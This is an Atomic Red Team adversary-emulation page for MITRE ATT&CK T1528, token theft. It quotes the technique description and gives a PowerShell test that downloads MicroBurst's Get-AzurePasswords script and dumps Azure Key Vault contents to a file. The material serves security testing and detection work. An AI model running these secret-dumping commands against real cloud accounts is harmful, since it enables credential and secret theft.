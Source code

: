 # T1528 - Steal Application Access Token
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1528)
<blockquote>

Adversaries can steal application access tokens as a means of acquiring credentials to access remote systems and resources.

Application access tokens are used to make authorized API requests on behalf of a user or service and are commonly used as a way to access resources in cloud and container-based applications and software-as-a-service (SaaS).(Citation: Auth0 - Why You Should Always Use Access Tokens to Secure APIs Sept 2019)  Adversaries who steal account API tokens in cloud and containerized environments may be able to access data and perform actions with the permissions of these accounts, which can lead to privilege escalation and further compromise of the environment.

For example, in Kubernetes environments, processes running inside a container may communicate with the Kubernetes API server using service account tokens. If a container is compromised, an adversary may be able to steal the container’s token and thereby gain access to Kubernetes API commands.(Citation: Kubernetes Service Accounts)  Similarly, instances within continuous-development / continuous-integration (CI/CD) pipelines will often use API tokens to authenticate to other services for testing and deployment.(Citation: Cider Security Top 10 CICD Security Risks) If these pipelines are compromised, adversaries may be able to steal these tokens and leverage their privileges.

Token theft can also occur through social engineering, in which case user action may be required to grant access. OAuth is one commonly implemented framework that issues tokens to users for access to systems. An application desiring access to cloud-based services or protected APIs can gain entry using OAuth 2.0 through a variety of authorization protocols. An example commonly-used sequence is Microsoft's Authorization Code Grant flow.(Citation: Microsoft Identity Platform Protocols May 2019)(Citation: Microsoft - OAuth Code Authorization flow - June 2019) An OAuth access token enables a third-party application to interact with resources containing user data in the ways requested by the application without obtaining user credentials. 
 
Adversaries can leverage OAuth authorization by constructing a malicious application designed to be granted access to resources with the target user's OAuth token.(Citation: Amnesty OAuth Phishing Attacks, August 2019)(Citation: Trend Micro Pawn Storm OAuth 2017) The adversary will need to complete registration of their application with the authorization server, for example Microsoft Identity Platform using Azure Portal, the Visual Studio IDE, the command-line interface, PowerShell, or REST API calls.(Citation: Microsoft - Azure AD App Registration - May 2019) Then, they can send a [Spearphishing Link](https://attack.mitre.org/techniques/T1566/002) to the target user to entice them to grant access to the application. Once the OAuth access token is granted, the application can gain potentially long-term access to features of the user account through [Application Access Token](https://attack.mitre.org/techniques/T1550/001).(Citation: Microsoft - Azure AD Identity Tokens - Aug 2019)

Application access tokens may function within a limited lifetime, limiting how long an adversary can utilize the stolen token. However, in some cases, adversaries can also steal application refresh tokens(Citation: Auth0 Understanding Refresh Tokens), allowing them to obtain new access tokens without prompting the user.  



</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure - Dump All Azure Key Vaults with Microburst](#atomic-test-1---azure---dump-all-azure-key-vaults-with-microburst)


<br/>

## Atomic Test #1 - Azure - Dump All Azure Key Vaults with Microburst
Upon successful execution of this test, the names, locations, and contents of key vaults within an Azure account will be output to a file.
See - https://www.netspi.com/blog/technical/cloud-penetration-testing/a-beginners-guide-to-gathering-azure-passwords/

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** 1b83cddb-eaa7-45aa-98a5-85fb0a8807ea





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | |
| password | Azure AD password | string | T1082Az|
| output_file | File to dump results to | string | $env:temp&#92;T1528Test1.txt|
| subscription_id | Azure subscription id to search | string | |


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
import-module "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-AzureRmAccount -Credential $Credential
Get-AzurePasswords -subscription '#{subscription_id}' > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -force -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The Get-AzurePasswords script must exist in PathToAtomicsFolder\..\ExternalPayloads.
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://raw.githubusercontent.com/NetSPI/MicroBurst/c771c665a2c71f9c5ba474869cd1c211ebee68fd/AzureRM/Get-AzurePasswords.ps1" -outfile "PathToAtomicsFolder\..\ExternalPayloads\Get-AzurePasswords.ps1"
```
##### Description: The Azure RM module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name AzureRM -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureRM -Force -allowclobber
```
##### Description: The Azure module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name Azure -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name Azure -Force -allowclobber
```




<br/>
